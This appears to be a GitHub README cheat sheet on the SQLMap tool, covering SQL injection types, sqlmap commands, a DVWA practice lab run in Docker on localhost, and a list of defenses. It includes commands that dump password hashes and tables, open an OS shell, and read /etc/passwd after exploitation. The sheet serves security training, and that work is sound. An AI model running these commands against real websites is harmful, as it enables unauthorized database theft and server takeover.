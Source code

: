 # SQLMap Cheat Sheet & Notes

## 🛠️ What is SQLMap?

SQLMap is an open-source tool that automates the process of detecting and exploiting SQL injection (SQLi) vulnerabilities in web applications. It can even be used to gain access to the underlying database and operating system.

### 🔍 Features:

- Database fingerprinting
- Fetching database data
- Accessing the underlying file system
- Executing commands on the OS via out-of-band connections

### 🔥 Supported SQLi Types:

- Boolean-Based Blind
- Time-Based Blind
- Error-Based
- UNION Query-Based
- Stacked Queries

---

## 💻 SQLMap Basic Commands

### General Flags

- `--batch`: Accept default answers to all prompts

### Common Use Cases

```bash
sqlmap -u "url?id=1" --batch --banner             # Retrieve DBMS banner
sqlmap -u "url?id=1" --batch --passwords          # Enumerate DBMS user passwords
sqlmap -u "url?id=1" --batch --dbs                # List all databases
sqlmap -u "url?id=1" --batch --tables -D <db>     # List tables in a database
sqlmap -u "url?id=1" --batch --dump -T <table> -D <db>  # Dump table contents
sqlmap -u "url?id=1" --batch --os-shell           # Gain OS shell if possible
```

### Example Post-Exploitation Commands:

```bash
pwd
whoami
ls /
cat /etc/passwd
```

---

## ⚔️ What Can a Successful SQLi Do?

- Read sensitive data from the database
- Modify/Insert/Delete database data
- Execute administrative DB operations
- Extract file contents from the DB file system
- Write files to the server
- Execute OS-level commands

---

## 🧠 Categories of SQL Injection

### 1. In-Band (Classical SQLi)

- **Error-Based**: Leverage DB error messages for data extraction
- **Union-Based**: Use UNION operator to extract data from other tables

### 2. Out-Of-Band

- Uses different communication channels (e.g., HTTP, DNS)
- Requires:
  - Vulnerable app and DB
  - Outbound request permission from the DB
  - Sufficient DB privileges

### 3. Inferential (Blind SQLi)

- Data is not directly returned
- Relies on:
  - Boolean conditions
  - Time delays (Time-Based Blind SQLi)

---

## 🧪 Practice with DVWA (Damn Vulnerable Web Application)

### 🐳 Run DVWA in Docker

```bash
sudo apt install -y docker.io
sudo systemctl enable docker --now
sudo docker run hello-world
sudo docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

### 🧬 SQLMap on DVWA (Low Security Level)

```bash
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=123&Submit=Submit#" \
  --cookie="PHPSESSID=...; security=low" --tables

sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=123&Submit=Submit#" \
  --cookie="PHPSESSID=...; security=low" --schema --batch

sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=123&Submit=Submit#" \
  --cookie="PHPSESSID=...; security=low" --dump -T users --batch

sqlmap --url "http://127.0.0.1/vulnerabilities/sqli/?id=1&Submit=Submit#" \
  --cookie="security=low; PHPSESSID=..." -D dvwa -T users --columns
```

---

## 🛡️ SQL Injection Defense Mechanisms

1. **Input Sanitization**: Remove/escape special characters (`'`, `--`, `;`, etc.)
2. **Prepared Statements**: Use parameterized queries (e.g., `?`, `$1`)
3. **Stored Procedures**: Encapsulate queries in routines
4. **Least Privilege Principle**: Restrict DB user privileges
5. **Web Application Firewall (WAF)**: Use tools like ModSecurity
6. **Allowlist Input Validation**: Validate inputs strictly
7. **Error Handling**: Hide DB error messages
8. **Limit Query Results**: Use `LIMIT` / `TOP` to reduce exposure
9. **Regular Audits**: Perform code review, pen-testing, and use tools like SQLMap, Burp Suite
10. **Use ORM**: Frameworks like SQLAlchemy or Hibernate

---

## 📚 Reference Materials

- [SQL Injection Cheat Sheet (GitHub)](https://github.com/AdmiralGaust/SQL-Injection-cheat-sheet)
- [Netsparker SQLi Guide](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
- [PortSwigger Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [UNION Attacks (PortSwigger)](https://portswigger.net/web-security/sql-injection/union-attacks)
- [Database Info Gathering (PortSwigger)](https://portswigger.net/web-security/sql-injection/examining-the-database)
- [Blind Injections (PortSwigger)](https://portswigger.net/web-security/sql-injection/blind)
- [SQL Zoo](https://sqlzoo.net/)
- [Juice Shop SQLi Hints](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/part2/injection.html)

---

**DLL (Dynamic Link Library)**: A Windows format for reusable functions shared across applications.

---

